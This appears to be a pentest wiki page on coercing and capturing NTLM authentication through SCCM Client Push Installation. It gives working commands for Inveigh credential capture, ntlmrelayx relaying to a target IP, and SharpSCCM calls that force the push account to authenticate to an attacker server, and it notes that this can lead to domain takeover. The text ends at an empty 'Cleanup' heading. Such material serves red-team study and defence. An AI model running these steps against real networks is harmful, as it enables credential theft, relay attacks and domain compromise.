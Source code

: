 ### Authentication Coercion via Client Push Installation

{% hint style="info" %}
In some case, the "Client Push Accounts" could even be part of the Domain Admins group, leading to a complete takeover of the domain.
{% endhint %}

The client push installation can be triggered forcefully or - if you're lucky - your compromised machine might not have the SCCM client installed, which mean you could capture the client push installation as it occurs.

{% tabs %}
{% tab title="Wait" %}
**Option 1: Wait for Client Push Installation**

```powershell
# Credential capture using Inveigh 
Inveigh.exe
```
{% endtab %}

{% tab title="Coerce" %}
**Option 2: Forcefully "coerce" the Client Push Installation**

{% hint style="danger" %}
Important note: You want to read [this blog](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a) post before you continue this route, as this attack might leave traces behind and might junk up the SCCM environment.
{% endhint %}

**Step 1: Prepare coercion receiver**

Note that you could either capture & crack received credentials or relay them to a suitable target system (or both).

```sh
# On Linux
## Relay using ntlmrelayx.py
ntlmrelayx.py -smb2support -socks -ts -ip 10.250.2.100 -t 10.250.2.179
```

```powershell
# On Windows
## Credential capture using Inveigh 
Inveigh.exe
```

**Step 2: Trigger Client-Push Installation**

```PowerShell
# If admin access over Management Point (MP)
SharpSCCM.exe invoke client-push -t <AttackerServer> --as-admin

# If not MP admin
SharpSCCM.exe invoke client-push -t <AttackerServer>
```

**Step 3: Cleanup**

